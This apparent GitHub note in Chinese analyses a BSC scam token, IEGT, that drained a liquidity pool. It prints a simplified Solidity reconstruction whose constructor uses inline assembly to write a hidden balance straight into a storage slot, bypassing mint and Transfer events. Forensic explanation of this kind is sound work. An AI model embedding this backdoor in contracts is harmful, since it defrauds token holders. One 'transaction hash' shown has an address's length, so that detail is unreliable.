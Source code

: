 ## 内联汇编 修改内存插槽slot
* https://www.bilibili.com/video/BV1GM4y1W7pq/
----
7月26日12点43分，在币安智能链 BSC 上，有一个欺诈合约通过修改数据插槽 slot 的方式，增发了天量代币，将池子中的资金全部卷走，共获利 114万 USDT，合人民币820万。

交易的哈希： `0x8d07f605926837ea0f9e1e24dba0fb348cb3e97d`，可以到 BSC 区块浏览器详细查看。

从区块浏览器的数据来看，这个合约的表现非常诡异。在项目代币没有增发记录的情况下，合约部署者大量增发了代币，卷走了池子里面的资金。

通过区块浏览器观察 Holders，这个合约发行的代币，符号为 IEGT，合约记录的发行总量为 totalSupply 为500万。但是，在 **dead** 和 **pair` 地址中的代币总量，却远远不止 500 万。

![image](https://github.com/NinjaGPT/crypto/assets/4035112/d64e8e6f-95df-41a7-afe4-a6bcd5a7ec32)

那么凭空多出来的代币从何而来呢，为什么没有被区块浏览器统计呢。进一步追查这些代币的来源时可以发现，有一个地址的交易非常蹊跷，它只有转出记录而没有转入记录。

众所周知，ERC20 合约标准规定了代币铸造和转移时，必须实现 Transfer 事件。区块浏览器需要依赖这些事件记录进行数据统计。所以，当在区块浏览器中发现代币总额与实际数量不符合时，就说明代币在进行增发时没有记录事件。

这个欺诈合约的代码是开源的，查看这个合约 Transfer 函数，发现它的这段函数代码并没有问题，确实记录了 Transfer 事件。这说明，它没有按照正规流程增发代币，而是绕过 mint 函数，直接修改了特定地址的代币余额。

再次查看这个合约的源码，终于发现了恶意代码的位置和欺诈的手法。就是这段代码偷偷修改了特定地址的余额，凭空给这个特定地址产生了巨量代币。

简化了这个合约，并依据它的欺诈方法，复原了这个欺诈过程。简化合约的核心代码为：

```solidity
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract TokenIEGT is ERC20 {
    // 构造函数
    constructor() ERC20("IEGT","IEGT") {
        _pathSet(); // 调用恶意代码
    }

    // 恶意代码
    function _pathSet() private {
        assembly {
            let y := 0x17F6AD8Ef982297579C203069C1DbfFE4348c372  //scamer's address

            mstore(0, y)
            mstore(32, 0)
            
            sstore(keccak256(0, 64), 666) 
        }      
     }
}
```
这个合约继承了标准的 ERC20 合约。构造函数中发布的代币的名称和符号都是 IEGT。

然后在构造函数中调用了一个私有函数 _pathSet，这个函数 _pathSet`** 内部是一段内联汇编代码。这段汇编代码就4句，比较简单。 

可以把完整代码复制到 Remix 里，查看效果, 查看它的发行总量，点击 totalSupply，结果是 0。这是因为并没有在代码中铸造，也就是没有调用 mint 函数。

再看看代码中的这个地址：0x17F6AD8Ef982297579C203069C1DbfFE4348c372，调用 balanceOf 函数，它的余额竟然有 666 wei。
